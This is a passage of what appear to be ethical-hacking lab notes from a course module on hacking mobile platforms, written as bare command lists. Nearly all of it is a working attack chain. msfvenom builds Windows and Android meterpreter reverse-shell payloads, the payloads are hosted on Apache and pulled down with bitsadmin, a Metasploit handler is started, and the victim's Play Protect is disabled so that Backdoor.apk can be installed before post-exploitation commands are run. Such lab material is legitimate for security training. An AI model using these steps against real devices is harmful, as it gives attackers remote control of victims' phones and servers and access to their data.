 + Login to `Windows Server 2019` with `Administrator`
+ Enable the Firewall
+ Open the `terminal`
+ sudo su
+ msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Exploit.exe
+ mkdir /var/www/html/share
+ chmod -R 755 /var/www/html/share
+ chown -R www-data:www-data /var/www/html/share
+ cp /home/attacker/Exploit.exe /var/www/html/share
+ service apache2 start
+ Open `Powershell` on `Windows Server 2019` with `Administrator`
+ bitsadmin /transfer Exploit.exe http://10.10.1.13/share/Exploit.exe c:\Exploit.exe

---

# Module 17: Hacking Mobile Platforms

## Lab 1: Hack Android Devices

### Task 1: Hack an Android device by creating binary payloads using Parrot Security

+ Open the `terminal`
+ sudo su
+ cd
+ service postgresql start
+ msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=10.10.1.13 R > Desktop/Backdoor.apk
+ mkdir /var/www/html/share
+ chmod -R 755 /var/www/html/share
+ chown -R www-data:www-data /var/www/html/share
+ cp /root/Desktop/Backdoor.apk /var/www/html/share/
+ service apache2 start
+ msfconsole
+ use exploit/multi/handler
+ set payload android/meterpreter/reverse_tcp
+ set LHOST 10.10.1.13
+ exploit -j -z
+ Switch to `Android` and Turn off Play Protect
+ Launch `Chrome` and navigate to `http://10.10.1.13/share`
+ Install `Backdoor.apk` and run the application
+ Notice the `meterpreter` has opened on `Parrot`
+ sessions -i 1
+ sysinfo
+ ipconfig
+ pwd
+ cd /sdcard
+ pwd
+ ps
